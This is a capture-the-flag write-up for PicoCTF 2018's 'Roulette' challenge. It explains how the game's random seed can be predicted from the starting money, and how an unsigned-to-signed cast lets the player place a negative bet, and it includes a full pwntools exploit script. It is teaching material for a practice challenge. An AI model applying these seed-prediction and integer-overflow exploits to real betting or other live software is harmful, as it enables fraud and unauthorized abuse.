 # Roulette

This is a 350-point miscellaneous challenge from PicoCTF 2018.

### Problem Description

This Online Roulette Service is in Beta. Can you find a way to win $1,000,000,000 and get the flag? [Source.](./roulette.c) Connect with `nc 2018shell.picoctf.com 26662`.

### Solution

This problem is a roulette game, and the player wins by making more than a billion dollars after starting with less than $5,000. The source code for this problem indicates that the random number seed is between 0 and 5000, and the starting money is determined by that random seed. That means that by repeatedly playing games, I can keep track of what the winning number sequences are for various values of the random seed.

In solving this, I started with an inefficient approach. My intuition was that I could win by brute forcing a dictionary containing all the winning sequences. I decided to keep track of the winning sequences with arrays indexed from a hash table (i.e. Python dictionary). In other words, a starting money value of $2996 might be contained in a dict as follows: {2996:[20,33,10]}, where the first three games require bets placed on 20, 33, and 10, and the outcome of the fourth game has not yet been determined.

Extracting the winning number from a single spin is pretty straightforward, and I got that with a little help from executing my Python script with `DEBUG` as a parameter to properly parse the program's output and handle edge cases. My first concern was to verify that a dictionary of solutions that I produce locally would contain the correct guesses needed for the server.

A little new to how random seeds worked, I felt it was useful to do a few tests before generating and saving a dictionary. I first checked that two separate instances run on the server with the same starting money resulted in the same results for the wheel spins, and they did. Now the remote application incorporates a delay between the start of the wheel spin and the result, so I tried checking that the spin results for a game run with the same starting money on the server and on a local instance were the same, and they were. Next, I compiled a local version that got rid of the delay between the start of a spin and the reporting of the results, so that I could construct my dictionary more quickly. At this point I could create a dictionary quite fast. That turned out to be the first half of the solution.

In order to quickly debug the ending conditions, I created a fake roulette program that creates the same random seed every time. At that point I realized that if I win 16 times the game kicks me out, so even if I were to properly build up a dictionary with the first 16 correct guesses, I still could not win a billion dollars.

That realization led me to the second bug. What I actually need to do is bet a negative amount of money. In `get_long` I have an unsigned long that gets cast as a signed `long` when the value is returned to `get_bet`. So I should be able to specify a large enough number such that the returned value from `get_long` is cast as a negative number. Then, I can bet a large negative amount and lose, and end up with more than a billion dollars. Of course, I have to first win at least three times so that the number of wins is greater than `HOTSTREAK` (3).

I need to calculate negative one billion as an unsigned long. Here's the calculation in `gdb`:

![./negative_1000000001.png](./negative_1000000001.png)

With that, I can get the flag locally:

![./local_flag.png](./local_flag.png)

But oops! My local compiled version was a 64-bit binary, while the remote version is a 32-bit binary. That changed the value I needed to enter for the unsigned long. I made the change, and that gives me the flag on the server. I found the easiest way to do it was just to do it manually: I started a connection to the server, got the starting funds, calculated the first three numbers to win locally by setting the random seed to the starting number, and then bet negative one billion dollars.

![./remote_flag.png](./remote_flag.png)

Here's my solution:
```
## Exploit Roulette
## by Sudoite

from pwn import *
from pprint import pprint

## Technically, this code should work to get the flag remotely, but it's
## faster just to get the necessary random numbers locally and then use them
## manually as input for the server.

local = True

def spawn_process(local=True):
	if local:
		p=process('./roulette_fast_x86')
	else:
		p = remote('2018shell2.picoctf.com', 26662)

	return p

def get_starting_money(p):
	p.recvuntil("$")
	starting_money = int(p.recvuntil(" "))
	log.info("starting money is " + str(starting_money))
	return(starting_money)

def spin(wager, p):
	p.send(str(wager) + "\n")
	p.recvuntil("Spinning")
	p.recvline()
	p.recvline()
	spinresult = p.recvuntil("\n")
	# int() doesn't work cleanly on input that starts with "\x08"
	if spinresult[len(spinresult)-3] == "\x08":
		result = int(spinresult[len(spinresult)-2:len(spinresult)])
	else:
		result = int(spinresult[len(spinresult)-3:len(spinresult)])
	print("spin result = " + spinresult)
	print("winning number = " + str(result))
	return(result)

lose_messages = {"WRONG\n","Nice try..\n","YOU LOSE\n","Not this time..\n","Better luck next time...\n"}

# one in 36 times the last round bet will succeed, but I don't care, this will usually work.
def play_last_round(p, starting_money, money, round_number):
	p.recvuntil("> ")
	#if local:
	#	p.send("18446744072709551615\n") # -1000000001 as an unsigned long (for a 64-bit not 32-bit application)
	#else:
	p.send("3294967295\n") # for 32-bit application
	p.recvuntil("> ")
	guess = 20
	result = spin(guess, p)
	p.interactive()
	return money, round_number

def play_round(p, starting_money, money, round_number):
	p.recvuntil("> ")
	p.send(str(money)+"\n")
	p.recvuntil("> ")
	if starting_money in seed_dictionary and len(seed_dictionary[starting_money]) > round_number:
		log.info("Guessing a pre-existing value: " + str(seed_dictionary[starting_money][round_number]))
		log.info("Starting money = " + str(starting_money))
		log.info("round_number = " + str(round_number))
		guess = seed_dictionary[starting_money][round_number]
	else:
		guess = 20
	result = spin(guess, p)
	log.info("result = " + str(result))
	if len(seed_dictionary[starting_money]) < round_number:
		log.info("ERROR: length of seed_dictionary["+str(starting_money) + "] < " + str(round_number))
		exit(0)
	elif len(seed_dictionary[starting_money]) == round_number:
		seed_dictionary[starting_money].append(result)
	p.recvline()
	result_message = p.recvline()
	print("result_message = " + result_message)
	if result_message in lose_messages:
		print("seed_dictionary: ")
		pprint(seed_dictionary)
		if local:
			p.kill()
		else:
			p.close()
		round_number = 0
	else:
		print("collision! round_number = " + str(round_number) + ", starting money = " + str(starting_money) + ", guess = " + str(guess))
		print("seed_dictionary: ")
		pprint(seed_dictionary)
		if len(seed_dictionary[starting_money]) == round_number: # got lucky and guessed 20
			seed_dictionary[starting_money].append(result)
		money *= 2
		round_number += 1
	return money, round_number

def play_game():
	round_number = 0
	while True:
		if round_number == 0:
			p = spawn_process(local=local)
			starting_money = get_starting_money(p)
			money = starting_money
			if starting_money not in seed_dictionary:
				seed_dictionary[starting_money] = []
		money, round_number = play_round(p, starting_money, money, round_number)
		if round_number >= 3:
			money, round_number = play_last_round(p, starting_money, money, round_number)
		print("returned from round " + str(round_number-1))


seed_dictionary = {}
round = 0
done = False

while not done:
	play_game()
	# Just break out when we get the flag locally
```

And [here's](./roulette_fast.c) the code to generate the roulette game with a fixed seed, along with the [binary](./roulette_fast_x86). Also, [here's](./roulette) the original binary.

### Alternative solutions

On CTF Time there are four submitted write-ups at the time of this solution. Three of them use the same approach that I did, and one brute-forces three wins. The only real difference between this approach and the three write-ups that exploit both bugs is the way that we generate the list of numbers necessary to win. I reproduced the entire game with the random seed set to what it is on the server, whereas the [other](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/General/18-roulette-350/solution.md) [three](https://github.com/PlatyPew/picoctf-2018-writeup/tree/master/General%20Skills/roulette) [write-ups](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/roulette.md) generate the winning numbers on the fly by getting the random seed directly from the program and then generating random numbers in the Python script or a separate script by computing `(rand() % 36) + 1`.

That was an instructive problem regarding pseudo-random number generation and long overflows.
